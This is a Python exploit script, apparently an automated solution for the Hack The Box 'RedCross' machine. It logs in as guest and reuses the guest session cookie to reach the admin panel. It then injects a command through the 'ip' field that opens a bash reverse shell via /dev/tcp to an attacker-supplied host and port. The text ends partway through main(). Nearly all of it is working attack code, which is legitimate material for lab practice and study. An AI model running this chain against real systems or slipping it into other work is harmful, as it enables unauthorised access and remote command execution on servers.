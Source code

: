 ```py
def login(rhost):
    # Get the cookies
    url = "https://intra.%s.htb:443/?page=contact" %rhost
    headers = {"Referer": "https://intra.redcross.htb/?page=login"}
    r.get(url, headers=headers, cookies=r.cookies, proxies=proxies, verify=False)
    # Now create a login fake
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"subject": "credentials", "body": "username=0x4rt3mis", "cback": "0x4rt3mis@email.com", "action": "contact"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    # Now, indeed login
    url = "https://intra.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, data=data, proxies=proxies, cookies=r.cookies, allow_redirects=True, verify=False)
    global cookie
    cookie = r.cookies['PHPSESSID']
    print("[+] Login as guest successssss!!!!! [+]")
    print("[+] PHPSSESID Got !!!!!! [+]")

def adminPageCookie(rhost):
    # Ok, let's clean the cokies
    # First we just log in as guest
    url = "https://admin.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"user": "guest", "pass": "guest", "action": "login"}
    r.post(url, headers=headers, cookies=r.cookies, data=data, verify=False, proxies=proxies, allow_redirects=True)
    # Clean the cookies
    r.cookies.clear()
    # Now, set the cookie from the guest, to get the access!
    r.cookies.set('PHPSESSID', cookie, path='/', domain='admin.redcross.htb')
    # Now get on the page
    url = "https://admin.%s.htb/?page=cpanel" %rhost
    r.get(url, proxies=proxies, verify=False, allow_redirects=True)
    print("[+] Admin loged in with poison coooooookies !!!! [+]")
    
def getReverseShell(rhost, lhost, lport):
    print("[+] Now, let's get a reverse www-data shell !!!!!!! [+]")
    payload = ";bash -c 'bash -i >& /dev/tcp/'" + lhost + "'/'" + lport + "' 0>&1'"
    url = "https://admin.%s.htb:443/pages/actions.php" %rhost
    headers = {"Content-Type": "application/x-www-form-urlencoded"}
    data = {"ip": "%s" %payload, "action": "deny"}
    print("[+] Sheeeell Got !!!!! [+]")
    r.post(url, headers=headers, cookies=r.cookies, data=data, proxies=proxies, verify=False)

def main():
    # Parse Arguments
    parser = argparse.ArgumentParser()
    parser.add_argument('-t', '--target', help='Target ip address or hostname', required=True)
    parser.add_argument('-li', '--localhost', help='Local ip to receive the reverse shell', required=True)
    parser.add_argument('-lp', '--localport', help='Local port to receive the reverse shell', required=True)
    args = parser.parse_args()
    
    rhost = args.target
    lhost = args.localhost
    lport = args.localport
    
```